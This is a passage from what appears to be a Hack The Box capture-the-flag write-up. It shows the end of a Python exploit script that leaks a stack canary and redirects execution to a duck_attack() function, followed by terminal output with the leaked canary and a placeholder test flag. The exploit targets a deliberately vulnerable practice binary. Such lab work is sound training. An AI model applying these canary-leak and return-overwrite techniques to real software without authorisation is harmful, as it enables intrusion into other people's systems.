 ```python
    else:
        proc = process(elf.path)
    
    duck_attack = 0x137f                                # Last 2 address bytes of the duck_attack() function
    
    canary = leak_address(proc)                         
    exploit(proc, duck_attack, canary)
    proc.close()
    print("Exploit completed.")

if __name__ == "__main__":
    main()
```

```shell
$ python exploit.py 
Starting exploit...
Response:
 b'Quack Quack =L\xbeL\x1fd~\xf0L"\xe7\xfd\x7f, ready to fight the Duck?'
Data extracted with offset 89: b'=L\xbeL\x1fd~\xf0L"\xe7\xfd\x7f'
Canary value at offset: 0x7e641f4cbe4c3d00
Did you really expect to win a fight against a Duck?!

HTB{f4k3_fl4g_4_t35t1ng}

Exploit completed.
```
